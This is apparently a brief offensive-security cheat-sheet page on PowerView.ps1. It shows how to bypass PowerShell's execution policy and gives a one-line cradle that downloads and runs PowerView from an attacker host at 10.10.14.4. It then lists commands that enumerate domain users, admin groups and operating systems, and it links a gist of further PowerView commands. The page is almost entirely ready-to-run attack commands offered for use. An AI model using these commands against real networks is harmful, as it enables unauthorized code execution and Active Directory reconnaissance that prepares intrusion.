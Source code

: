# PowerView.ps1

{% tabs %}
{% tab title="Bypass PowerShell" %}
```powershell
# -ep bypasses the execution policy of powershell allowing you to easily run scripts
powershell -ep bypass
```
{% endtab %}

{% tab title="Start PowerView" %}
```powershell
# download it from attacker
iex(new-object net.webclient).downloadstring('http://10.10.14.4:9090/PowerView.ps1')

# launch it
. .\Downloads\PowerView.ps1
```
{% endtab %}

{% tab title="Useful Commands" %}
```powershell
# Enumerate domain users
Get-NetUser | select cn
# Enumerate domain groups : 
Get-NetGroup -GroupName *admin*
# Enumerate domain OS :
Get-NetComputer -fulldata | select operatingsystem
```

**LIST**

{% embed url="https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993" %}
PowerView Commands
{% endembed %}
{% endtab %}
{% endtabs %}
